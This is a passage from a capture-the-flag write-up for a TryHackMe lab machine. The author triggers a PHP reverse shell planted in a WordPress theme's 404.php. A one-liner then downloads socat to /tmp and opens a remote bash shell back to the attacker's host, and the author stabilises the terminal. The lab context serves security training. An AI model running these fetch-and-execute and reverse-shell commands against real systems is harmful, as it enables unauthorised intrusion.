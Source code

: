 ```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Wekor]
└─# curl http://site.wekor.thm/wordpress/wp-content/themes/twentytwentyone/404.php
```

```
[...]
connect to [10.18.61.134] from (UNKNOWN) [10.10.10.35] 47698
Linux osboxes 4.15.0-132-generic #136~16.04.1-Ubuntu SMP Tue Jan 12 18:18:45 UTC 2021 i686 i686 i686 GNU/Linux
 07:35:02 up 14 min,  0 users,  load average: 0.99, 1.19, 0.99
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1129): Inappropriate ioctl for device
bash: no job control in this shell
www-data@osboxes:/$ ip a
ip a
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:94:36:70:83:dd brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.35/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::94:36ff:fe70:83dd/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm `www-data`!

**Stable shell via `socat`:**
```
┌──(root🌸siunam)-[/opt/…/binaries/linux/x86/socat-2.0.0-b8]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

www-data@osboxes:/$ wget http://10.18.61.134/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.18.61.134:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane

┌──(root🌸siunam)-[~/ctf/thm/ctf/Wekor]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2022/09/23 07:51:24 socat[42520] N opening character device "/dev/pts/2" for reading and writing
2022/09/23 07:51:24 socat[42520] N listening on AF=2 0.0.0.0:4444
                                                                 2022/09/23 07:51:28 socat[42520] N accepting connection from AF=2 10.10.10.35:45424 on AF=2 10.18.61.134:4444
                                                                   2022/09/23 07:51:28 socat[42520] N starting data transfer loop with FDs [5,5] and [7,7]
                                               www-data@osboxes:/$ 
www-data@osboxes:/$ stty rows 22 columns 107
www-data@osboxes:/$ export TERM=xterm-256color
www-data@osboxes:/$ ^C
www-data@osboxes:/$ 
```

# Privilege Escalation
